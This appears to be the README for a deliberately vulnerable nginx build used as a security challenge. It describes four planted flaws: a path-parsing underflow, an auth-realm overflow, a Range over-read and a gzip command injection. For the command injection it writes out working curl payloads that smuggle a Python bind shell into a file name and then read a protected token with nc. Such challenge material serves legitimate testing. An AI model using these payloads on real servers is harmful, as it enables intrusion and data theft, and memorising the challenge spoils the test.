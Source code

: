 # justison

Justison is an injection vulnerability into nginx.

## Overview
Externality: nginx

Protocol: HTTP

Langage: C

## Building nginx

``./auto/configure --with-http_ssl_module --with-http_v2_module --with-http_realip_module --with-http_addition_module --with-http_xslt_module --with-http_image_filter_module --with-http_geoip_module --with-http_sub_module --with-http_dav_module --with-http_flv_module --with-http_mp4_module --with-http_gunzip_module --with-http_gzip_static_module --with-http_auth_request_module --with-http_random_index_module --with-http_secure_link_module --with-http_degradation_module --with-http_slice_module --with-http_stub_status_module``
``make``

Copy the files under base_data
cp -R ./base_data/* /usr/local/nginx/

## Running nginx
sudo ./objs/nginx

## Protocol
nginx is a popular webserver that implements the HTTP protocol.

## In Scope
All core functionality and modules are in scope. Pages stored under ``/chess`` are assumed to require admin credentials to access.

## POV 1
CWE-124: Buffer Underflow
Memory Corruption, arbitrary write

By supplying a specially crafted HTTP request with a //../ it is possible to cause a buffer underflow. The parsing functionally will continually subtract 1 from the buffer start until it encounters a '/'. It will then begin writing
at that point which overwrites a pointer. This gives an attacker the ability for an arbitrary write of data.

To detect this crash you need to exec into the docker image and connect to the worker process via gdb. The reference PoV results in an attempt to write an attacker controlled value into an attacker controlled address. It is possible that PoVs exercising this vulnerability will result in different effects.

## POV 2
CWE-121: Stack-based Buffer Overflow
Memory corruption, authentication bypass

The challenge incorrectly allows an attacker to overwrite an entire struct instead of a specific field in the structure.
This allows for an authentication bypass. This error happens when handling the authentication realm in the ngx_http_auth_basic_set_realm()
function.

The reference PoV demonstrates this vulnerability by requesting a page requiring admin access without supplying proper credentials.

## POV 3
CWE-126: Buffer Over-read
Information Disclosure, private address
When using the Range filter, you can define a byte range that you want
returned in your request with the following header: Range: bytes=x-y. POV_3 leverages this feature, if you request a file and you define the y portion of the header value to a value that exceeds the size of the file you are requesting, you will be able to read data in memory from the buffer forward, and this results in an address leak.


## POV 4
CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
Data / Command inject, Structured information disclosure.

An attacker is allowed to push files to the server. In addition, the server gives the ability to gzip files which it can
do internally or via a call to system(). If an attacker supplies a specific HTTP header then the challenge will call out
to gzip via system(). This can be done on an attacker supplied file name. A specially crafted filename will allow for a
command injection.

To manually execute this vulnerability
``dd if=/dev/random of=/tmp/stuff.dump bs=1 count=2000``

``curl -T /tmp/stuff.dump "localhost:8000/scratch/hello;python3%20-c%20%22import%20socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((str(),9998));s.listen(5);client,address=s.accept();import%20os;os.system(client.recv(1024));client.close();s.close();%22"``

``curl -H "Accept-Encoding: gzip" -H "Source: hello" "localhost:8000/scratch/hello;python3%20-c%20%22import%20socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((str(),9998));s.listen(5);client,address=s.accept();import%20os;os.system(client.recv(1024));client.close();s.close();%22"``

``nc localhost 9998``
``cat /token > /usr/local/nginx/html/scratch/token.html``

``curl localhost:8000/scratch/token.html``

The reference PoV returns the protected token.
